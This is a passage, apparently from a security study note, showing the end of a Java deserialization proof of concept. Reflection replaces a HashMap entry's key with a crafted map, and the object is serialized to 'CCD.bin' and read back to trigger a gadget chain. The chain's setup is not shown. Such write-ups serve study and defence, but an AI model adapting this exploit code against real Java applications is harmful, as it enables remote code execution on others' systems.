 ```
        Object node = table[2];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map);
        }

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CCD.bin"));
        os.writeObject(obj);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CCD.bin"));
        fos.readObject();

    }
    public static void setFieldValue(Object obj,String filename,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(filename);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```

![image-20230206115221864](images/36.png)
